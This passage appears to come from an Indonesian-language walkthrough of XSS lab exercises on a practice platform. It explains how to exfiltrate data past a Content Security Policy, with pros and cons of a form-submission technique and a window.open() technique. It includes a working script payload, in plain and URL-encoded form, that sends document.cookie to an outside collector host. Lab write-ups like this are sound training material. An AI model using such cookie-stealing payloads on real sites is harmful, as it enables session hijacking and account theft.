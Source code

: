 ### Kelebihan
- ✅ **Standard HTML behavior** - Menggunakan form submission standar
- ✅ **Multiple inputs** - Bisa exfiltrate banyak data sekaligus
- ✅ **GET navigates** - GET form submission = navigasi page
- ✅ **Flexible structure** - Bisa tambah input fields sesuka hati
- ✅ **Bypass many CSPs** - Jika form-action tidak di-set

### Kekurangan
- ❌ **Complex code** - Lebih panjang dari teknik lain
- ❌ **Multiple DOM operations** - Create form, input, append, submit
- ❌ **User sees navigation** - Tetap terlihat redirect
- ❌ **URL limit** - Query string tetap terbatas
- ❌ **Bisa diblokir oleh**: `form-action 'self'` atau `form-action 'none'`

---

## 🎯 Teknik 5: window.open() New Window

### URL & Parameter Lab
```
https://pzcihwu2.xssy.uk/target.ftl?name=
```

### CSP yang Diterapkan
```
default-src 'none'; 
img-src https://xssy.uk/; 
style-src 'unsafe-inline'; 
script-src 'unsafe-inline'
```

### Penjelasan Teknik
`window.open()` membuka URL di window/tab baru. Dengan mengirim data di URL, kita dapat exfiltrate tanpa mengganggu halaman original victim. Namun, teknik ini sering diblokir oleh popup blockers browser modern.

Keuntungan utama adalah victim tetap berada di halaman original (lebih stealth), namun popup blocker menjadi kendala utama.

### Full URL, Parameter & Payload

**Payload:**
```javascript
<script>
window.open('https://eqh42jmm.xssy.uk/?c='+document.cookie);
</script>
```

**URL Encoded:**
```
https://pzcihwu2.xssy.uk/target.ftl?name=%3Cscript%3Ewindow.open%28%27https%3A%2F%2Feqh42jmm.xssy.uk%2F%3Fc%3D%27%2Bdocument.cookie%29%3B%3C%2Fscript%3E
```
